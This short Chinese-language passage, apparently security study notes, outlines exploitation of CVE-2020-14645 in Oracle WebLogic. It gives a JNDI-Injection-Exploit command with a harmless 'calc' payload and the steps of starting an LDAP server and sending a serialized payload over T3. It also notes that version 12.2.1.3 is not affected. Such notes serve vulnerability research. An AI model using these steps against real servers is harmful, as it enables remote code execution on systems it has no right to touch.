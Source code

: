 ### 漏洞利用

```
java -jar .\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 127.0.0.1 -C "calc"
```

启动ldap服务器

生成序列化payload.ser

通过T3协议发送payload.ser

![avatar](../../../../images/java/weblogic/CVE-2020-14645/1.png)

在Weblogic 12.2.1.3版本无法成功，因为12.2.1.3版本没有UniversalExtractor这个类。

### PSF案例

![avatar](../../../../images/java/weblogic/CVE-2020-14645/2.png)
